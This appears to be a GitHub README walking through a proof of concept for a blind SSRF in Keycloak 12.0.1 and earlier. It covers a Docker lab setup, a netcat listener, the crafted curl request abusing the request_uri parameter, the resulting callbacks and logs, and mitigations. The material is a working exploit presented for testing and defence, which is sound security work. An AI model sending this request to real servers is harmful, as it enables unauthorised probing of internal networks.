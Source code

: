 # Keycloak Blind SSRF POC

This is a step by step walk-through about how to test the blind ssrf found by Lauritz Holtmann and documented in his [blog post](https://security.lauritz-holtmann.de/post/sso-security-ssrf/).  
He also [briefly explained how to test it](https://twitter.com/_lauritz_/status/1347246269631238145). This is just a more detailed explanation.

All credits go to [Lauritz](https://twitter.com/_lauritz_).

# Setup 

I use Docker on Mac OSX here.  
I needed three shells, one running the Keycloak instance, one for the listener and one for the curl request.

## Defender

You need a running Keycloak instance with a version <= 12.0.1.  
You can start a test instance with the following command. 
```
docker run -p 9990:9990 -p 8080:8080 -e KEYCLOAK_USER=admin -e KEYCLOAK_PASSWORD=admin jboss/keycloak:12.0.1
```

Visit http://localhost:8080/auth/admin/ in a browser and login with the username "admin" and the password "admin".

On the left side switch to the menu "Clients". This will bring you the the Clients overview.  
![Oauth2 client overview](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config.jpg?raw=true)

On the right side click on "Create" to create a new client. This will bring you to the client creation page.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_2.jpg?raw=true)

Choose a reasonable "Client ID" for your Oauth2 client. I go with "blueteamoauth2client" here (this is your <Keycloak_Client_ID>). If you use another Client ID, you have to change a query parameter in the attack http request. Click save to finalize the client setup.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_3.jpg?raw=true)

You will now see the settings of our new Oauth2 client.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_4.jpg?raw=true)

That is all for the defending part.

## Attacker

### Listener

You need a listener that is accepting the request that we want to trigger with our SSRF. So the ip and port must be reachable from the Keyclok server.  
You can not use localhost in that case, because from Keycloaks point of view localhost will be in the container itself.  
To retrieve the ip address in Mac OS you can use
```
for iface in $(ifconfig  | grep ^en | awk -F\: {'print $1'}); do ipconfig getifaddr $iface; done
```

I chose to start the listener on my host system on port 4444.
```
nc -v -l 4444
```

### Attack

In another shell you have to do one request with curl. You have to change that to your requirements.
```
curl "http://<Keycloak_host_or_ip>:<Keycloak_port>/auth/realms/<Keycloak_realm>/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=<Keycloak_Client_ID>&request_uri=http://<Netcat_listener_ip>:<Netcat_listener_port>/"
```

The important parts are:
* <Keycloak_host_or_ip> in my case "localhost".
* <Keycloak_port> in my case "8080".
* <Keycloak_realm> the realm used by Keycloak. The default is "master". That is what I use here.
* <Netcat_listener_ip> the ip address of the netcat listener.
* <Netcat_listener_port> the port of the netcat listener.

So the query in my case is
```
curl "http://localhost:8080/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=blueteamoauth2client&request_uri=http://192.168.178.222:4444/"
```

## Result

In the netcat listener you will see something like this.

```
bash-3.2$ nc -v -l 4444
GET / HTTP/1.1
Host: 192.168.178.222:4444
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.13 (Java/11.0.9.1)
Accept-Encoding: gzip,deflate

bash-3.2$
```

That means that the Keycloak instance did a http call to your listener.

There will also be entries about this in the Keycloak logs.
```
13:37:28,855 WARN  [org.keycloak.services] (default task-16) KC-SERVICES0097: Invalid request: java.net.SocketTimeoutException: Read timed out
	at java.base/java.net.SocketInputStream.socketRead0(Native Method)
	at java.base/java.net.SocketInputStream.socketRead(SocketInputStream.java:115)
(...)
13:37:28,877 WARN  [org.keycloak.events] (default task-16) type=LOGIN_ERROR, realmId=master, clientId=blueteamoauth2client, userId=null, ipAddress=172.17.0.1, error=invalid_request
```

# Mitigation

To mitigate that you could either. 
* Update Keycloak to version >= 12.0.2. 
* Make sure that a reverse proxy in front of Keycloak drops every request that includes the query parameter "request_uri".  

# Acknowledgements

Thanks to [Lauritz](https://twitter.com/_lauritz_) for finding and reporting the SSRF, for writing the blog post and also for the initial hint how to do this.  
Thanks to [Sebastian](https://groups.google.com/g/keycloak-dev/c/az-FYoI6WDg/m/emwMWfagAAAJ) for the idea to block requests with query parameter "request_uri" in the reverse proxy.

